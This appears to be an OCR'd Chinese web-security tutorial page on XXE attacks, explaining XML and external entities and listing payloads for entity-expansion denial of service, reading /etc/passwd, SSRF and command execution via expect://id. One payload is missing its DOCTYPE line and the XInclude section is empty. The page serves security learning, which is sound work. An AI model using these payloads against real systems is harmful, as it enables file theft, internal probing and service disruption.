 **3.9. XXE**

3.9.1. XML基础

XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。

---

3.9.2. XXE

当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。


---
3.9.3. 攻击方式

3.9.3.1. 拒绝服务攻击

<!DOCTYPE data [ 
<!ELEMENT data (#ANY)> 
<!ENTITY a0 "dos" > 
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;"> 
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;"> 
]> 
<data>&a2;</data>


若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。


3.9.3.2. 文件读取

<?xml version="1.0"?> 

<!ELEMENT data (#ANY)> 
<!ENTITY file SYSTEM "file:///etc/passwd"> 
]> 
<data>&file;</data>
3.9.3.3. SSRF
<?xml version="1.0"?> 
<!DOCTYPE data SYSTEM "http://publicServer.com/" [ 
<!ELEMENT data (#ANY)> 
]> 
<data>4</data>
3.9.3.4. RCE
<?xml version="1.0"?> 
<!DOCTYPE GVI [ <!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "expect://id" >]> 
<catalog>    
       <core id="test101">       
         <description>&xxe;</description>    
     </core> 
</catalog>


3.9.3.5. XInclude
